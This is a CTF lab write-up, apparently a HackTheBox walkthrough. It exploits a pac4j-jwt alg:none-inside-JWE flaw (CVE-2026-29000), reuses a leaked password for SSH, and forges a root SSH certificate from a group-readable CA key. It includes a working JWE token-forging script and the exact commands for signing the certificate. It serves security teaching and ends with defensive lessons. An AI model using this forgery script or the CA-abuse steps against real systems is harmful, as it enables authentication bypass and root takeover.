




# Principal — HackTheBox Medium Walkthrough

Principal is a medium-difficulty Linux box built around a fresh CVE in the pac4j-jwt security framework, where the presence of JWE *encryption* created a false sense of security while the inner JWT signature was never actually verified. From there, a leaky settings endpoint hands us SSH credentials, and a misconfigured SSH CA lets us sign our own certificate for root. Two distinct cryptographic trust failures, one after the other.

---

## Overview

The attack path on Principal breaks cleanly into three stages: exploit a JWE-wrapped `alg: none` bypass (CVE-2026-29000) to forge an admin JWT, pivot to SSH using a password leaked through the admin API, then abuse read access to the SSH Certificate Authority private key to sign a root certificate. Each step is conceptually elegant and, more importantly, the kind of mistake that appears in real-world deployments.

---

## Reconnaissance

### Port Scanning

Starting with a standard nmap scan to see what we're working with:



Port 8080 is running **Jetty**, a Java web server, and the response headers include `X-Powered-By: pac4j-jwt/6.0.3`. That's an immediate flag — pac4j is a Java security framework, and the specific component name tells us exactly what authentication mechanism to investigate. The page title "Principal Internal Platform - Login" redirects to `/login`, and 404 responses return structured JSON in Spring Boot style.

### Web Enumeration

Before diving into manual testing, I ran directory and endpoint fuzzing. A few interesting paths surfaced:

- `/api/auth/login` — accepts `POST` with JSON `{"username": ..., "password": ...}`, returns a JWE token on success
- `/api/auth/jwks` — publicly accessible, exposes the RSA public encryption key with `kid: enc-key-1`
- `/api/dashboard`, `/api/users`, `/api/settings` — all return 401 without a valid token
- `/api/auth/keys`, `/api/auth/signing-key`, `/api/auth/certs` — exist but also 401

The JWKS endpoint being public is worth noting. In a correctly configured system, exposing the *public* encryption key is fine — that's how JWE is supposed to work. The problem, as we'll see, is what the server does with the *inner* JWT once it's decrypted.

The real goldmine was `/static/js/app.js`. It contained detailed comments from what looks like a developer documenting the auth architecture:

```
JWE: RSA-OAEP-256 + A128GCM (encryption layer)
Inner JWT: RS256 (signing layer)
Claims: sub, role (ROLE_ADMIN/ROLE_MANAGER/ROLE_USER), iss ("principal-platform")
```

This tells us the system is supposed to use nested JWT-in-JWE. The JWE encrypts the outer token so it can't be read in transit; the inner RS256 JWT is supposed to prove authenticity. If the server fails to verify that inner signature, encryption alone is meaningless.

---

## Foothold

### CVE-2026-29000 — pac4j-jwt PlainJWT in JWE Bypass

This CVE (CVSS 10.0, disclosed 2026-03-03) affects pac4j-jwt versions below 6.3.3. The root cause: when pac4j decrypts a JWE and calls `getPayload().toSignedJWT()`, it gets `null` back if the inner token is a `PlainJWT` (i.e., `alg: none`). Rather than treating `null` as an error, pac4j falls through and builds an authenticated profile directly from the decrypted claims — no signature verification ever happens.

The attack is elegant in its simplicity:
1. Grab the RSA public key from `/api/auth/jwks` (it's public — that's the point)
2. Craft an unsigned JWT (`alg: none`) with whatever claims we want
3. Wrap it in a valid JWE using that public key
4. Send it as a Bearer token

The server decrypts the JWE (valid, we used the real public key), tries to get a SignedJWT (gets null), skips verification, and hands us an admin session.

Here's the token forge script:

```python
import json, base64
from jwcrypto import jwt, jwk

# Load public key from /api/auth/jwks response
with open("jwks.json") as f:
    pub_key = jwk.JWK(**json.load(f)["keys"][0])

# Build unsigned (alg:none) inner JWT
header = {"alg": "none", "typ": "JWT"}
claims = {
    "sub": "admin",
    "role": "ROLE_ADMIN",
    "iss": "principal-platform",
    "iat": 1741737600,
    "exp": 1741824000
}

def b64url(data):
    return base64.urlsafe_b64encode(
        json.dumps(data).encode()
    ).rstrip(b"=").decode()

# PlainJWT: header.payload. (empty signature)
inner_jwt = f"{b64url(header)}.{b64url(claims)}."

# Encrypt as JWE: RSA-OAEP-256 + A128GCM
token = jwt.JWT(
    header={"alg": "RSA-OAEP-256", "enc": "A128GCM", "kid": "enc-key-1"},
    claims=inner_jwt
)
token.make_encrypted_token(pub_key)
print(token.serialize())
```

Sending that token to `/api/users` with `Authorization: Bearer <JWE>`:



We get back a list of 8 users. The interesting one: `svc-deploy` with role `deployer` and auth method `ssh-cert`. And then hitting `/api/settings`:



The settings endpoint leaks an `encryptionKey` value: `D3pl0y_$$H_Now42!`. It also reveals that the SSH CA lives at `/opt/principal/ssh/` and that certificate authentication is enabled. Developers sometimes reuse "encryption keys" as passwords — worth trying directly.

This is a similar pattern to what we saw in [CCTV](/writeups/season10/cctv/), where JWT misconfiguration led to credential exposure through an authenticated endpoint.

### SSH Access as svc-deploy

```bash
sshpass -p 'D3pl0y_$$H_Now42!' ssh svc-deploy@<TARGET>
```

It works. The `encryptionKey` is the SSH password for `svc-deploy`. User flag is at `/home/svc-deploy/user.txt`.

---

## Privilege Escalation

### SSH CA Certificate Forgery

Once on the box, I checked group membership:

```bash
id
# uid=1001(svc-deploy) gid=1001(svc-deploy) groups=1001(svc-deploy),1002(deployers)
```

The `deployers` group membership is the key. Let's see what it unlocks:

```bash
find /opt/principal/ssh/ -ls 2>/dev/null
```

The CA private key at `/opt/principal/ssh/ca` is readable by the `deployers` group. This is catastrophic — whoever holds the CA private key can sign SSH certificates for *any* user.

I checked the sshd configuration to understand what principal restrictions, if any, are in place:

```bash
grep -E 'TrustedUserCA|AuthorizedPrincipals|PermitRoot' /etc/ssh/sshd_config
# TrustedUserCAKeys /opt/principal/ssh/ca.pub
# PermitRootLogin prohibit-password
```

`PermitRootLogin prohibit-password` blocks password auth for root but explicitly allows certificate auth. And critically — there's no `AuthorizedPrincipalsFile` directive. Without that, OpenSSH's default behavior is to match the certificate's principal list against the target username. So if we sign a cert with principal `root`, we can authenticate as root.

The exploit is four commands:

```bash
# 1. Generate a fresh key pair locally
ssh-keygen -t ed25519 -f /tmp/principal_key -N ""

# 2. Pull the CA private key off the box
scp svc-deploy@<TARGET>:/opt/principal/ssh/ca /tmp/principal_ca
chmod 600 /tmp/principal_ca

# 3. Sign our public key with the CA, setting principal to "root"
ssh-keygen -s /tmp/principal_ca \
           -I "root-cert" \
           -n root \
           -V +1h \
           /tmp/principal_key.pub

# 4. Authenticate as root using the signed certificate
ssh -i /tmp/principal_key root@<TARGET>
```



The `-n root` flag in `ssh-keygen -s` is what sets the certificate principal. Without `AuthorizedPrincipalsFile` constraining which principals are valid for which accounts, the default matching gives us root immediately. We saw SSH being used as an escalation vector in [AirTouch](/writeups/retired/airtouch/) as well, though the mechanism there was quite different.

---

## Lessons Learned

**1. Encryption ≠ Authentication.** This is the core lesson of CVE-2026-29000. The JWE layer encrypted the token contents, but encryption only provides *confidentiality*. It says nothing about whether the inner claims are legitimate. pac4j-jwt 6.0.3 trusted decrypted claims without verifying the inner JWT's signature. Always validate the signing algorithm server-side and reject anything that isn't the expected algorithm.

**2. The JWKS public key exposure enabled the entire attack.** Exposing a JWE encryption public key is by design — that's how asymmetric encryption works. But when combined with the `alg: none` bypass, it meant anyone could craft a valid-looking JWE without any credentials. The design assumed signature verification would happen; it didn't.

**3. API endpoints shouldn't expose secrets regardless of auth level.** The `/api/settings` response included a raw `encryptionKey` value that happened to be reused as an SSH password. Authenticated admin access doesn't justify returning plaintext secrets through an API — those should live in secrets management, not application settings endpoints.

**4. SSH CA private keys need the same protection as root credentials.** A CA private key is a skeleton key for your entire SSH infrastructure. Giving the `deployers` group read access to it is equivalent to giving them unrestricted SSH access to every host that trusts the CA. If you're running an SSH CA, the private key should ideally be on an HSM, or at absolute minimum readable only by root.

**5. Always configure `AuthorizedPrincipalsFile` in SSH CA deployments.** Without it, any certificate signed by the CA that lists username `X` as a principal can authenticate as user `X` — including `root`. The `AuthorizedPrincipalsFile` directive lets you specify exactly which principals are valid for each account, providing a critical layer of defense even if the CA key is somehow compromised.
